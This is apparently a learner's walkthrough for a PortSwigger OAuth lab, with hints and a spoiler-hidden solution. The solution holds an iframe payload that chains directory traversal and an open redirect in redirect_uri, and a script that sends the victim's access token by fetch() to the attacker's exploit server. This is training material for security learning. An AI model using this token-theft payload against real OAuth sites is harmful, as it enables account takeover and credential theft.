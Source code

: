 # Lab: Stealing OAuth access tokens via an open redirect

- [Link](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## Tips

This is a lab that will require you to explore a little bit. So, open up your Burp or Zap and explore what you can do to manipulate the requests that are made your target server.

As this is an OAuth vulnerability, you'll need to try to find how you can manipulate the `redirect_uri`. What you can do so that you can get the OAuth server to send a request to your exploit server?

<details>
<summary>Click to expand!</summary>

It's not as straightforward as others OAuth labs, but you can try some directory traversal to get past the host validation that the OAuth server do on `redirect_uri`. Of course, this is not sufficient. You'll need to try to find if there's any other place in the blog so that you can made a redirect.

:shushing_face: Don't tell anyone but, maybe the blog posts are a good page to explore :shushing_face:
  
</details>

Okay, you found a way to get the OAuth server to call your exploit server, but this is not all! Now you need to craft a good way to get the `admin` API key. Obviously, it won't be directly. First you'll need to get an access token! Try to see the responses from the actual server, what is expected when you call `/oauth-callback`? What are the expected flow? How one usually use an access token? The answers for those questions can get you in the right direction!

<details>
<summary>Click to expand!</summary>

It might not be the best way to do that, but I used the following body:

```js
// The iframe to trigger the OAuth request
<iframe src=https://oauth-acb31f371fb205cec0132eca025e0051.web-security-academy.net/auth?client_id=h12z1586qp8bbcern17ff&redirect_uri=https://ac611f8f1fcd0583c0ef2e8300c20056.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-acec1f331fbd0574c02d2e5101dc00a8.web-security-academy.net/exploit&response_type=token&nonce=1796294516&scope=openid%20profile%20email></iframe>

// And an script to get the access token when the OAuth server redirect to your exploit server
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
fetch('https://exploit-acec1f331fbd0574c02d2e5101dc00a8.web-security-academy.net/?' + token, {
    method: 'GET',
    headers: {
        'Authorization': 'Bearer ' + token,
        'Content-Type': 'application/json'
    }
})
</script>
```

</details>

Now that you have an `admin` access token, how you can get the API key? It is not shown in any page, but it must be somewhere, right? Look at the interactions with the actual server and OAuth server and see if there's any response that gives an `apikey`!

<details>
<summary>Click to expand!</summary>

This is the easiest part in this lab, but if you're really in trouble, the hint is `/me`.

</details>

Grab the `admin` API key, submit and see the victory!

:tada: :tada: :tada: :tada: :tada:

![Congratulations, you solved the lab!](./assets/congratulations.png)